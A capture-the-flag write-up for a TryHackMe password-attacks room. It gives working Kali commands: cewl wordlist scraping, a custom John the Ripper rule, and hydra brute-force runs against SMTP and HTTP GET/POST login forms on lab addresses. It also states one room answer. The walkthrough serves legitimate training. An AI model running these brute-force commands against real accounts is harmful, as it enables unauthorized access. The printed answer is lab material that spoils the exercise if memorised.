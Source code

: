 # Password Attacks

**Room Link:** [https://tryhackme.com/room/passwordattacks](https://tryhackme.com/room/passwordattacks)



## Deploy the VM

Creating a wordlist from this site as recommend in the room.

**Kali**

```
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/  
```

## Offline Attacks

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.131.68:25 (SMTP).**

**What is the password? Note that the password format is as follows: \[symbol]\[dictionary word]\[0-9]\[0-9].**

#### **john.conf**

```
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@#$]
```

**Kali**

```
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://$VICTIM:25 -v
```

Answer is !multidisciplinary00

**Perform a brute-forcing attack against the phillips account for the login page at http://10.10.130.199/login-get using hydra? What is the flag?**

<figure><img src="../../.gitbook/assets/image (2) (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
hydra -l phillips -P ../dict.lst 10.10.130.199 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```



<figure><img src="../../.gitbook/assets/image (12) (2).png" alt=""><figcaption></figcaption></figure>



\
**Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.130.199/login-post/. What is the flag?**

**Note: use the clinic.lst dictionary in generating and expanding the wordlist!**



**Kali**

```
john --wordlist=clinic.lst --rules=Single-Extra --stdout > dict2.lst

./hydra -l burgess -P dict2.lst 10.10.130.199 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
```

<figure><img src="../../.gitbook/assets/image (14) (8).png" alt=""><figcaption></figcaption></figure>
